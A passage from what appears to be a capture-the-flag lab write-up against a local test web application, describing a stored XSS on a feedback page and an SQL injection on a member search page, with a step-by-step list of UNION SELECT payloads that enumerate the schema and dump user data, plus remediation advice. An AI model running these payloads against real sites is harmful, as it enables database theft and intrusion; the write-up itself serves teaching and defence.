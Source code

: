 On the page <http://192.168.56.103/index.php?page=feedback>  it&rsquo;s possible for the users to leave feedbacks. Any comments leads to XSS and gives the flag. This is exagerated but real XSS attacks can lead to serious threats on websites, it can steal cookies, make request for any users who visite the page &#x2026;


<a id="orge057525"></a>

## Protection

SANTIZE THE INPUT ! Use appropriate response headers. To prevent XSS in HTTP responses that aren&rsquo;t intended to contain any HTML or JavaScript, you can use the Content-Type and X-Content-Type-Options headers to ensure that browsers interpret the responses in the way you intend.


<a id="orgb9facf7"></a>

# sql_injection_member


<a id="org608156b"></a>

## Vulnerability

On the page <http://192.168.56.105/index.php?page=member> we can search users by their &rsquo;id&rsquo;. If we enter a letter for example, an error is displayed which reveals that it reads sql commands.

1.  1 OR 1
2.  5 UNION SELECT database(),2
3.  5 UNION SELECT table_schema,table_name FROM information_schema.columns
4.  5 UNION SELECT table_name,column_name FROM information_schema.columns
5.  5 UNION SELECT user_id,planet FROM users
6.  5 UNION SELECT user_id,countersign FROM users
7.  5 UNION SELECT user_id,commentaire FROM users
8.  `echo -n 'fortytwo' | sha2`


<a id="orgfbdc5e3"></a>

## Protection

Sanitize the input of form and use parametrized queries.
Parameterized queries are a means of pre-compiling an SQL statement so that you can then supply the parameters in order for the statement to be executed. This method makes it possible for the database to recognize the code and distinguish it from input data.


<a id="org5c0e747"></a>

# sql_injection_image


<a id="orgfc4f9d0"></a>
